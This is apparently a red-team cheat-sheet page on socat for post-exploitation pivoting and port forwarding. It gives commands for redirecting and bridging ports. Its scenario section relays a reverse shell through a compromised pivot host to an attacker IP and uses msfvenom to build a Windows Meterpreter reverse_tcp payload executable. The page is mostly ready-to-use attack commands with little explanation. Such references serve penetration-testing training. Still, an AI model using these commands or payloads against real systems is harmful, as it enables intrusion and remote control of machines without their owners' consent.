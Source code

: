```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - scenarios
  - cross-platform
  - socat
---
```

# Socat

## 01 - Usage

### 1.1 - Open Two Listening Ports

```
> socat -v tcp-listen:<local_PORT_1> tcp-listen:<local_PORT_2>
```

### 1.2 - Redirect Port

```
> socat tcp-listen:<local_PORT>,reuseaddr tcp-connect:<target_IP>:<target_PORT>
```

### 1.3 - Bridge Two Hosts

```
> socat -v tcp-connect:<target_IP_1>:<target_PORT_1>,reuseaddr tcp-connect:<target_IP_2>:<target_PORT_2>
```

## 02 - Scenarios

### 2.1 - Port Forward Reverse Shell

```
> socat tcp4-listen:<pivot_PORT>,fork tcp4:<attacker_IP>:<attacker_PORT>
```

Generate a reverse shell with the IP address of the compromised machine to pivot from.

```
userware@hackware-os:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<pivot_IP> lport=<pivot_PORT> -f exe -o payload.exe
```

### 2.2 - Bind Web Server Port

```
> socat tcp-listen:8443,reuseaddr tcp-connect:<webserver_IP>:443
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k https://<pivot_IP>:8443
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Payloads/Cross Platform/One-Liners/Netcat Variants/Socat]]

### Internal All The Things

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [Artkond Pivoting Guide](https://artkond.com/2017/03/23/pivoting-guide/)

- [SevenLayers: Socat Reverse Shell Relay](https://sevenlayers.com/index.php/blog/500-socat-reverse-shell-relay)

- [CyberSec Wikimandine: Socat](https://amandinegh.gitbook.io/cyberadventure/internal/pivoting-tunneling-and-port-forwarding/socat)